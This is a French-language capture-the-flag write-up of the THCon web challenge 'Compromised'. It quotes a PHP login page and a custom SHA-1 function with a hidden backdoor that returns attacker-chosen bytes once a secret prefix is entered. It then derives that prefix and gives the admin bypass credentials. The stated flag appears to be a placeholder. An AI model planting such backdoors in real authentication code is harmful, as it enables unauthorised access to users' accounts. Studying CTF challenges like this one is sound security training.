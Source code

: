 **Web - Compromised - 200pts**


Enoncé :
```
The administrator of this website has been hacked multiple times. As a result, they gave the sources of their site and ask users to look for vulns.

https://compromised.thcon.party

WARNING: The flag is given without the surrounding "THC{...}"
```

On commence avec les sources de l'application web [Sources](sources/sources.zip)

**Résolution :**

La page d'accueil nous demande de nous authentifier.


Le fichier login.php contient l'authentification suivante :

```PHP
if (!empty($_POST['username']) && !empty($_POST['password'])) {
	$account = json_decode(file_get_contents('configs/account.json'));

	if ($_POST['username'] == $account->username && hsha1($_POST['password']) == $account->password) {
		$_SESSION['logged'] = $account->username;
		header('Location: admin.php');
		echo 'bon';
		exit();
	}
	else {
		$error = "Invalid username of password";
	}
}

```

On essaye d'accèder au fichier qui contient les comptes utilisateurs sur le serveur :

[configs/account.json](https://compromised.thcon.party/configs/account.json)

```PHP
{
	"username": "admin",
	"password": "f17c99cf95443a9a8768547fb91377a6da9f2a6e"
}
```

Sans succès après avoir essayer de chercher une correspondance du sha1 , nous sommes aller voir plus en détail la fonction "hsha1".

Contenu du fichier : "base/sha1.php"

```PHP
<?php
[...]

function sha1x($order, $b, $c, $d)
{
	switch ($order) {
		case 0:
			return (~$b & $d) ^ ($b & $c);
		case 1:
		case 3:
			return $b ^ $d ^ $c;
		case 2:
			return ($b & $c) ^ ($c & $d) ^ ($b & $d);
		case 4:
			return ($b ^ 0x2a);
	}
}

function hsha1($input) {
	$p0 = 1732584193;
	$p1 = 4023233417;
	$p2 = 2562383102;
	$p3 = 271733878;
	$p4 = 3285377520;
	
	$c0 = 1226721361;
	$c1 = 16862785;
	$c2 = 725571416;

	$K = [1518500249, 1859775393, 2400959708, 3395469782];
	$B = str_split(str_pad(substr($input, 10), 40), 8);

	$msg = get_msg($input);
	$parts = str_split($msg, 64);
	
	$i = 0;
	$z = 0;
	foreach ($parts as $part) {
		$parcels = str_split($part, 4);
		foreach ($parcels as $i => $chrs) {
			$chrs = str_split($chrs);
			var_dump($chrs);
			$parcel = '';
			foreach ($chrs as $chr) {
				$parcel .= sprintf('%08b', ord($chr));
			}
			$parcels[$i] = bindec($parcel);
		}

		for ($i = 16; $i < 80; $i++) {
			$parcels[$i] = rotl($parcels[$i - 3] ^ $parcels[$i - 8] ^ $parcels[$i - 14] ^ $parcels[$i - 16], 1) & 0xffffffff;
		}

		$a = $p0; $b = $p1; $c = $p2; $d = $p3; $e = $p4;

		foreach ($parcels as $i => $parcel) {
			$j = floor($i / 20);
			if ($i < 10) {
				if (@sha1x(4, ord($input[$i]), $c, $d) == (movr($i / 4, $c0, $c1, $c2) & 0xff)) {
					$z++;
				}
				$i++;
			}
			$f = sha1x($j, $b, $c, $d);
			$temp = rotl($a, 5) + $f + $e + $K[$j] + ($parcel) & 0xffffffff;
			$e = $d;
			$d = $c;
			$c = rotl($b, 30);
			$b = $a;
			$a = $temp;
			$x = $z == 0xa ? chr(115) : chr(120);
		}

		$p0 = $z == 10 ? $B[0] : (($p0 + $a) & 0xffffffff);
		$p1 = $z == 10 ? $B[1] : (($p1 + $b) & 0xffffffff);
		$p2 = $z == 10 ? $B[2] : (($p2 + $c) & 0xffffffff);
		$p3 = $z == 10 ? $B[3] : (($p3 + $d) & 0xffffffff);
		$p4 = $z == 10 ? $B[4] : (($p4 + $e) & 0xffffffff);
	}

	return sprintf("%08$x%08$x%08$x%08$x%08$x", $p0, $p1, $p2, $p3, $p4);
}

```

On constate que :

```PHP
$p0 = $z == 10 ? $B[0] : (($p0 + $a) & 0xffffffff);
```
Si $z est égal à 10 alors $p0 vaut "$B[0]" (valeur) transmis par l'utilisateur) 

On cherche donc un moyen de mettre $z à 10 :

```PHP
@sha1x(4, ord($input[$i]), $c, $d) == (movr($i / 4, $c0, $c1, $c2) & 0xff)
```

Si on execute la page de login avec un mot de passe de test et que l'on affiche **(movr($i / 4, $c0, $c1, $c2) & 0xff)** , on obtient : 

```PHP
	if ($i < 10) {
				echo "\n--------------\n";
				echo (movr($i / 4, $c0, $c1, $c2) & 0xff);
				echo "\n---------------\n";
				/*if (@sha1x(4, ord($input[$i]), $c, $d) == (movr($i / 4, $c0, $c1, $c2) & 0xff)) {
					
					$z++;
					var_dump($z);
				}*/
				$i++;
			}

```

Résultat :
```
81, 72, 30, 73, 65, 78, 1, 1, 88, 87
```

Il faut xorer chaque résultat avec 0x2a.


```PHP

case 4:
			return ($b ^ 0x2a);

```


```PYTHON
>>> import sys
>>> values = [81, 72, 30, 73, 65, 78, 1, 1, 88, 87]
>>> for elem in values:
...     sys.stdout.write(chr(elem ^ 0x2a))
... 
{b4ckd++r}
```

Pour se connecter sur la page admin il fallait alors utiliser les identifians :

```
admin / {b4ckd++r}f17c99cf95443a9a8768547fb91377a6da9f2a6e
```

```
Le flag est : THC{tata}
```




By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
